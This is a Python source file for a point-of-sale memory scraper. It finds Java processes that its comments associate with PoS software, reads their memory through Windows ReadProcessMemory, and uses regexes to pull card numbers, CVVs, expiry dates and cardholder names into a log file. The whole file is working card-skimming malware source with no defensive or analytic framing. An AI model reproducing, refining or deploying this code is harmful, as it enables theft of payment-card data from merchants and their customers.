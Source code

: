import re
import ctypes
import time
import threading
import logging
from queue import Queue
import psutil  # For scanning running processes

# Initialize memory queue and running flag
memory_queue = Queue()
running = True

# Process access rights
PROCESS_VM_READ = 0x0010
PROCESS_QUERY_INFORMATION = 0x0400

# Regex patterns for card information
CARD_NUMBER_PATTERN = r'\b(?:\d[ -]*?){13,16}\b'  # Example pattern for 13-16 digit card numbers
CVV_PATTERN = r'\b\d{3,4}\b'  # Typical CVV pattern (3 or 4 digits)
EXPIRY_DATE_PATTERN = r'\b(0[1-9]|1[0-2])\/([0-9]{2})\b'  # Expiry date pattern (MM/YY)
NAME_PATTERN = r'[A-Z][a-z]+ [A-Z][a-z]+'  # Simple pattern for detecting names (First Last)

# Function to scan a memory chunk for card info
def scan_memory_chunk(memory_chunk):
    valid_cards = []
    
    # Search for potential card numbers
    card_numbers = re.findall(CARD_NUMBER_PATTERN, memory_chunk)
    
    for card_number in card_numbers:
        # Search for associated CVV, Expiry Date, and Name
        cvv = re.search(CVV_PATTERN, memory_chunk)
        expiry_date = re.search(EXPIRY_DATE_PATTERN, memory_chunk)
        name = re.search(NAME_PATTERN, memory_chunk)

        if card_number and cvv and expiry_date and name:
            card_info = {
                'Card Number': card_number,
                'Name': name.group(),
                'CVV': cvv.group(),
                'Expiry Date': expiry_date.group()
            }
            valid_cards.append(card_info)
    
    return valid_cards

# Worker thread that processes memory chunks for a specific process
def memory_scan_worker(process_handle, pid):
    while running:
        if memory_queue.empty():
            time.sleep(1)  # Avoid busy waiting
            continue
        
        base_addr, size = memory_queue.get()
        
        try:
            buffer = ctypes.create_string_buffer(size)
            bytesRead = ctypes.c_size_t(0)
            # Check if the address is still valid and if we can read memory
            if ctypes.windll.kernel32.ReadProcessMemory(process_handle, ctypes.c_void_p(base_addr), buffer, size, ctypes.byref(bytesRead)):
                print(f"[PID {pid}] Scanning memory region at address {base_addr} with size {size}")
                valid_cards = scan_memory_chunk(buffer.raw.decode('latin-1', errors='ignore'))
                if valid_cards:
                    for card in valid_cards:
                        formatted_output = f"[PID {pid}] {card['Card Number']}:{card['Name']}:{card['CVV']}:{card['Expiry Date']}"
                        print(formatted_output)
                        logging.info(formatted_output)  # Log to file
                else:
                    print(f"[PID {pid}] No valid card data found in this memory region.")
            else:
                # Handle the case where ReadProcessMemory fails
                logging.warning(f"[PID {pid}] Failed to read memory at {base_addr}: Address may not be valid or accessible.")
                print(f"[PID {pid}] Failed to read memory at address {base_addr}.")
        except Exception as e:
            logging.error(f"[PID {pid}] Error reading memory at {base_addr}: {e}")
            print(f"[PID {pid}] Error reading memory at address {base_addr}: {e}")
        finally:
            memory_queue.task_done()

# Function to automatically detect PIDs of relevant processes (e.g., javaw.exe)
def get_relevant_pids():
    relevant_pids = []
    for proc in psutil.process_iter(['pid', 'name']):
        try:
            # Check for processes that might be related to PoS software
            if proc.info['name'] in ['javaw.exe', 'java.exe']:  # Add other relevant names here if needed
                print(f"Detected relevant process: {proc.info['name']} (PID: {proc.info['pid']})")
                relevant_pids.append(proc.info['pid'])
        except (psutil.NoSuchProcess, psutil.AccessDenied, psutil.ZombieProcess):
            continue
    return relevant_pids

# Function to retrieve memory regions of a given process
def get_memory_regions(pid):
    """ Retrieves the memory regions of the specified process. """
    memory_regions = []
    
    process_handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)
    if not process_handle:
        print(f"Could not open process with PID {pid}.")
        return memory_regions
    
    # MEMORY_BASIC_INFORMATION structure
    class MEMORY_BASIC_INFORMATION(ctypes.Structure):
        _fields_ = [("BaseAddress", ctypes.c_void_p),
                    ("AllocationBase", ctypes.c_void_p),
                    ("AllocationProtect", ctypes.c_ulong),
                    ("RegionSize", ctypes.c_size_t),
                    ("State", ctypes.c_ulong),
                    ("Protect", ctypes.c_ulong),
                    ("Type", ctypes.c_ulong)]
    
    mbi = MEMORY_BASIC_INFORMATION()
    address = 0
    while ctypes.windll.kernel32.VirtualQueryEx(process_handle, ctypes.c_void_p(address), ctypes.byref(mbi), ctypes.sizeof(mbi)):
        if mbi.State == 0x1000:  # MEM_COMMIT
            # Consider only readable regions (PAGE_READWRITE, PAGE_READONLY)
            if mbi.Protect in (0x04, 0x02):
                memory_regions.append((mbi.BaseAddress, mbi.RegionSize))
        
        address += mbi.RegionSize

    ctypes.windll.kernel32.CloseHandle(process_handle)
    return memory_regions

# Main function to scan memory of automatically detected processes
def scan_process_memory(num_threads=4):
    pids = get_relevant_pids()
    
    if not pids:
        print("No relevant processes found.")
        return

    for pid in pids:
        print(f"Starting memory scan for PID {pid}")
        memory_regions = get_memory_regions(pid)
        if not memory_regions:
            print(f"[PID {pid}] No valid memory regions found.")
            continue

        process_handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)
        if not process_handle:
            logging.error(f"[PID {pid}] Could not open process.")
            print(f"[PID {pid}] Could not open process.")
            continue

        # Start threads for each process
        threads = []
        for _ in range(num_threads):
            t = threading.Thread(target=memory_scan_worker, args=(process_handle, pid))
            t.daemon = True  # Allow threads to exit when the main program does
            t.start()
            threads.append(t)

        try:
            while running:
                # Keep scanning new memory regions in a loop
                new_memory_regions = get_memory_regions(pid)
                for region in new_memory_regions:
                    print(f"[PID {pid}] Adding memory region to queue: {region}")
                    memory_queue.put(region)

                time.sleep(5)  # Delay between scans to reduce CPU usage

        except KeyboardInterrupt:
            print(f"Stopping the memory scan for PID {pid}...")
        finally:
            for t in threads:
                t.join()
            ctypes.windll.kernel32.CloseHandle(process_handle)

    print("All memory scans completed.")

# Example usage
if __name__ == "__main__":
    logging.basicConfig(level=logging.INFO, filename='memory_scan.log', filemode='a', format='%(asctime)s - %(message)s')

    # Start scanning memory for relevant processes
    scan_process_memory(num_threads=4)
